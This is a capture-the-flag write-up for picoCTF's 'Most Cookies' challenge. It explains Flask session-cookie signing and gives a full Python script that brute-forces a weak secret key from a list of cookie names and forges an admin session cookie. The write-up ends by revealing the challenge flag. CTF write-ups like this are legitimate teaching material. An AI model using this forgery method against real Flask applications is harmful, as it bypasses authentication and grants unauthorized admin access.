

# Most Cookies
### Authored by Katrina Lee



## Introduction

It's another cookie manipulation challenge!! Woo-hoo! To learn the basics of cookie manipulation with Chrome DevTools, take a look at [my writeup](../Cookies/README.md) for the `Cookies` challenge.

Okay. We know that the server is using [Flask session cookies](https://overiq.com/flask-101/sessions-in-flask/), so let's do some research on how they are encrypted and how secure they are. The cookie is divided into three parts, each separated by a period (`.`). Looking at `eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YFJUTg.P2yjtXbLscemve2adpeyuJA3WBU`, for example, we have:
* `eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9` - **the session data** - a dictionary encoded in [Base64](https://www.base64decode.org/)
* `YFJUTg` - **the timestamp**, which tells the server when the data was last updated
* `P2yjtXbLscemve2adpeyuJA3WBU` - **the [SHA-1 cryptographic hash](https://en.wikipedia.org/wiki/SHA-1)** - calculated using the session data, timestamp, and secret key (`app.secret_key` in the Flask app script)

Aha! There's the vulnerability! The "secure" Flask cookie is only as secure as its secret key. If we know the secret key, we can generate a cookie with our own session data, tricking the server into thinking that it's valid.

Great. Now, let's peek into the [server.py](server.py) file provided to see if we can figure out the secret key. On lines 6 - 7, we have the following code:
```
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)
```
It seems that the secret key is simply being generated by randomly selecting a cookie name from the `cookie_names` list! Well, that's wonderful, because all we have to do is try each of the cookie names as the secret key until one of them is considered valid!

Let's keep looking through `server.py`. Nothing really stands out until we get to the `flag()` function at line 43. If we request the `/display` endpoint - simply by visiting the provided URL with `/display` at the end (`http://mercury.picoctf.net:6259/display`) - the server checks to see if the `very_auth` key in the `session` dictionary has a value of `admin`. So, the (decoded) session cookie should look like this: `{"very_auth": "admin"}`. If this requirement is met, then we get the flag! Awesome!

If we do a little more research on how Flask session cookies are signed and hashed, we'll come across one major thing: the cookie is [salted](https://en.wikipedia.org/wiki/Salt_(cryptography)) with a known string: "cookie-session". Not very secure.

## Scripting

Okay, now let's write a script to get our modified session. Reminder: for every module that you do not yet have installed on your system, make sure to install it with `pip`, a package manager. For example, type `python3 -m pip install itsdangerous` into the terminal.

First, we need to install a couple of modules:
* `itsdangerous` - to unsign the old session and sign the new one with timestamps
* `flask` - to create a new session
* `hashlib` - to encrypt with session with a SHA-1 hash
* `requests` - in my `Cookies` writeup, I used the `urllib` module to work with HTTP requests, so I'll show you how to do it with `requests` for this challenge

Let's set our `URL` and `data` constants:
```
URL = "http://mercury.picoctf.net:6259/"
data = {"very_auth": "admin"}
```
Let's also copy & paste the `cookie_names` list from `server.py`
```
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
```

And...we got the flag! `picoCTF{pwn_4ll_th3_cook1E5_5f016958}`

## Resources

* [How Secure Is The Flask User Session? - miguelgrinberg.com](https://blog.miguelgrinberg.com/post/how-secure-is-the-flask-user-session)
* [Baking Flask cookies with your secrets | by Luke Paris | Paradoxis](https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce)

You can find the full script below or [here](most_cookies.py) as a file.

```
from itsdangerous import TimestampSigner as tsigner, URLSafeTimedSerializer as serializer, Signer
from flask.json.tag import TaggedJSONSerializer
import hashlib
import requests

URL = "http://mercury.picoctf.net:6259/"
data = {"very_auth": "admin"}

cookie_flavors = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

s = requests.Session()
s.get(URL)
old_session = s.cookies.get_dict()["session"]

for secret in cookie_flavors:
	try:
		signature = tsigner(secret_key=secret, salt="cookie-session", key_derivation="hmac", digest_method=hashlib.sha1).unsign(old_session)
	except:
		continue
	break

new_session = serializer(
	secret_key=secret,
	salt="cookie-session",
	serializer=TaggedJSONSerializer(),
	signer=tsigner,
	signer_kwargs={
		"key_derivation":"hmac",
		"digest_method":hashlib.sha1
	}
).dumps(data)

response = requests.get(URL, cookies=dict(session = new_session))
print(response.text)
```
